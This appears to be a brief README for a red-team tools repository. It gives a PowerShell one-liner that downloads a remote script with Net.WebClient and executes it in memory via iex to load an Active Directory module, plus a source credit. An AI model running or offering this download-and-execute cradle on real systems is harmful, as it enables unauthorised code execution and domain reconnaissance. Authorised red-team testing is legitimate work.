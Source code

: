 # RedTeamStuffs
A collection of Red Team tools and stuff that have come in handy

# Native AD Module
iex (new-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/RCStep/RedTeamStuffs/master/Import-ActiveDirectory.ps1');Import-ActiveDirectory

PS> Get-Command -Module \*ActiveDirectory\*

From: https://github.com/samratashok/ADModule/tree/master
